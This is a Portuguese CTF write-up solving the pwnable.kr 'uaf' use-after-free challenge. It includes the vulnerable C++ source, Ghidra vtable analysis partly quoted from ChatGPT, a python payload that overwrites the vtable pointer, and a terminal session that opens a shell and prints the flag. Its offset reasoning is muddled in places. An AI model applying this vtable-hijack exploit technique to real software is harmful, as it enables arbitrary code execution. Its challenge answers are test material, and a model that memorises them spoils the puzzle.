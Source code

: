 
# UAF
###### Resolvido por @Cubano2
> Este é um CTF sobre [Use After Free]  

## Sobre o Desafio  

Mommy, what is Use After Free bug?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)

## Solução

O exercício começa com a gente acessando essa máquina ``` ssh uaf@pwnable.kr -p2222```

E dentro do terminal da máquina temos esses arquivos:
```
uaf@pwnable:~$ ls
flag  uaf  uaf.cpp
```
Escrevendo ```cat uaf.cpp``` temos acesso a esse código, que além da vulnerabilidade UAF também apresenta conceitos de 'Programação Orientada à Objetos':


```c++
#include <fcntl.h>                                                                                                                           
#include <iostream>                                                                                                                          
#include <cstring>                                                                                                                           
#include <cstdlib>                                                                                                                           
#include <unistd.h>                                                                                                                          
using namespace std;                                                                                                                         
class Human{                                                                                                                                 
private:                                                                                                                                     
        virtual void give_shell(){                                                                                                           
                system("/bin/sh");                                                                                                           
        }                                                                                                                                    
protected:                                                                                                                                   
        int age;                                                                                                                             
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
 
class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};
 
class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};
 
int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);
 
        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;
 
                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }
 
        return 0;
} 
```

Ao analisar o código percebemos que ele tem 3 funções:

Opção 1 (use) → Chama introduce() de m e w.

Opção 2 (after) → Aloca memória dinâmica, de tamanho ```argv1```, para armazenar dados de um arquivo, que está contido em ```argv2```.

Opção 3 (free) → Libera os objetos m e w.

Descompilando o código no ghidra precisamos procurar duas funções importantes no código a ```introduce``` e a ```give_shell```, pois na lógica do código, ao trocarmos a informação que adicionamos na opção 1 ```use``` conseguimos fazer o ponteiro que não estaria alocado para a função ```introduce``` e faríamos ele apontar para a função do ```give shell```. Devo ressaltar que os objetos ```m``` e ```w``` estão em uma vtable, em C++, as funções virtuais são acessadas através da Virtual Table (vtable), que contém ponteiros para as funções da classe, nesse caso a classe sendo ```human```.

Variavel man
![image](https://github.com/user-attachments/assets/d3024548-9134-4a4b-a4f0-79c773755914)

Vtable de man
![image](https://github.com/user-attachments/assets/03428383-0981-41e8-94a9-3f577418a7ab)

Vtable de human
![image](https://github.com/user-attachments/assets/604f0582-36b3-4d67-91a5-dd38965ee463)


Quando um objeto chama ```introduce()```, na verdade, ele está acessando o endereço armazenado na vtable. Pedindo ajuda pro gpt analisar o Ghidra e achar a vtable certa do que queremos ele me deu essa explicação detalhada a seguir: 
```
 A vtable de Man começa no endereço 0x401560 e contém vários campos inicializados com 0h, que são apenas preenchimentos (possivelmente espaço reservado para futuras funções virtuais ou alinhamento de memória).

Depois disso, temos:

0x401568 → addr Man::typeinfo (metadados sobre a classe Man).
0x401570 → addr Human::give_shell → Isso significa que o ponteiro nesse deslocamento está apontando para a função give_shell, que pertence à classe Human.
0x401578 → addr Man::introduce → Aqui está o ponteiro para a função introduce() da classe Man. 

``` 
```
Endereço da vtable
A vtable de Man está de fato na região que começa em 0x401560. Isso é o bloco de memória que guarda os endereços das funções virtuais de Man.

Offset do método introduce()
O ponteiro para introduce() está em 0x401578, o que significa que essa função pode ser chamada quando um objeto de Man invoca um método virtual.

Offset do método give_shell()
O ponteiro para give_shell() está em 0x401570, o que sugere que o primeiro método virtual na vtable foi sobrescrito para apontar para Human::give_shell ao invés da implementação original.
```
Neste ponto, fica claro o que precisamos fazer: alocar um espaço de memória usando a opção after para simular um objeto Man real, mas com o ponteiro da vtable modificado. Dessa forma, ao usar a opção use, em vez de chamar ```introduce```, a função ```give_shell``` será executada.
![image](https://github.com/user-attachments/assets/94bc2949-ec58-44ae-9a6a-f4d42e156662)

Para conseguirmos executar uma chamada para ```give_shell``` precisamos fazer um cálculo simples do offset. Se a vtable começa em ```0x401570``` e ```introduce()``` está em ```0x401578```, podemos calcular o deslocamento:

```0x401578 − 0x401570 = 8```

Sendo assim temos 8 bytes de offset.

E com esses 8 bytes de offset conseguimos fazer nosso ponteiro apontar para a função do ```give_shell``` sem nenhum problema. Como esse 8 bytes "adiantam" nosso ponteiro, temos que ajustá-lo para começar 8 posições antes para aí o ponteiro apontar para a posição ```0x401570-8``` que no caso será ```40 1568```. E com isso alteranfo o ponteiro da vtable para ```0x401568``` fará com que, ao buscar ```introduce()```, o programa acabe chamando ```give_shell()```.
 
E por fim precisamos criar um payload com esse endereço de ponteiro para executarmos o código e adicionar essa informação com o uso da opção 2 (after). Pedi pro Gpt me entregar um payload, com todas essas informações que encontrei e ele me passou o seguinte código para executar no terminal do ssh:
``` python3 -c 'import sys; sys.stdout.buffer.write(b"\x68\x15\x40\x00" + b"\x00" * 4)' > /tmp/uaf-exploit ``` 
```
uaf@pwnable:~$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x68\x15\x40\x00" + b"\x00" * 4)' > /tmp/uaf-exploit
uaf@pwnable:~$ ./uaf 8 /tmp/uaf-exploit
1. use
2. after
3. free
->3
1. use
2. after
3. free
->2
your data is allocated
1. use
2. after
3. free
->2
your data is allocated
1. use
2. after
3. free
->1
$ cat flag
yay_f1ag_aft3r_pwning
$ 

```
![image](https://github.com/user-attachments/assets/d9e1f927-e39c-4ec7-a0d4-06c0457fd740)

>`yay_f1ag_aft3r_pwning`
